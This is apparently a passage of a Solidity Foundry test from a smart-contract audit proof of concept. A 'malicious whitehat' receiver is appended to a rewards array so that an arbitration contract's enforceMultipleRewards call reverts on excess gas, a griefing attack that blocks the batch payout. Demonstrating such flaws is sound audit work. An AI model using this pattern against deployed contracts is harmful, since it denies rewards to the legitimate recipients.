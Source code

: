 ```solidity
                tokenAmounts: new Rewards.ERC20Reward[](0),
                nativeTokenAmount: 1 ether,
                gasToTarget: vaultDelegate.UNTRUSTED_TARGET_GAS_CAP()
            });
        }
     
        // Then, the malicious whitehat is added at the end of the array to demonstrate 
        // the worst case scenario for the grief attack
        rewards[length] = ArbitrationBase.MultipleEnforcementElement({
            withFees: true,
            recipient: address(receiver),
            tokenAmounts: new Rewards.ERC20Reward[](0),
            nativeTokenAmount: 1 ether,
            gasToTarget: vaultDelegate.UNTRUSTED_TARGET_GAS_CAP()
        });
        bytes32 arbitrationId = arbitration.computeArbitrationId(referenceId, address(vault), whitehat);


        uint gasUsed;
 

        uint initialGas = gasleft();
        vm.txGasPrice(123456);

        vm.startPrank(arbiter);
        // We expect this enforceMultipleRewards because of the malicious whitehat's 
        // smart contract that causes the function to revert due to a function that
        // requires too much gas.
        vm.expectRevert();
        arbitration.enforceMultipleRewards(arbitrationId, rewards, true);
        vm.stopPrank();

        console.log("balance of random group member after: ", address(userGroup[0]).balance);
        uint finalGas = gasleft();
        gasUsed = initialGas - finalGas;
        console.log("Gas used: ", gasUsed);
        (, ArbitrationBase.ArbitrationStatus status, , , ) = arbitration.arbData(arbitrationId);
        console.log("status: ", uint256(status));
        console.log(uint256(ArbitrationBase.ArbitrationStatus.Open));

    }
```